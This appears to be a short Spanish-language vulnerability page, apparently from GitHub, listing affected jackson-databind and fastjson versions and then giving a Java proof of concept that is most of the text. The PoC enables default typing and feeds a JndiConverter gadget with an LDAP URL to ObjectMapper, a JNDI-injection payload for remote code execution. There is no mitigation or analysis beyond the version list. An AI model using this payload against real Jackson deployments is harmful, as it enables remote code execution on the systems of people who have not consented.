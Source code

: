 <languages />

Impacto de la vulnerabilidad
----------------------------

jackson-databind 2.0.0 – 2.9.10.2

Se ha verificado que fastjson afecta a la última versión de fastjson v1.2.62 cuando la función autoType está activada

POC
---

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
       public static void main(String args[]) {
           ObjectMapper mapper = new ObjectMapper();

           mapper.enableDefaultTyping();

           String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

           try {
               mapper.readValue(json, Object.class);
           } catch (IOException e) {
               e.printStackTrace();
           }

       }
    }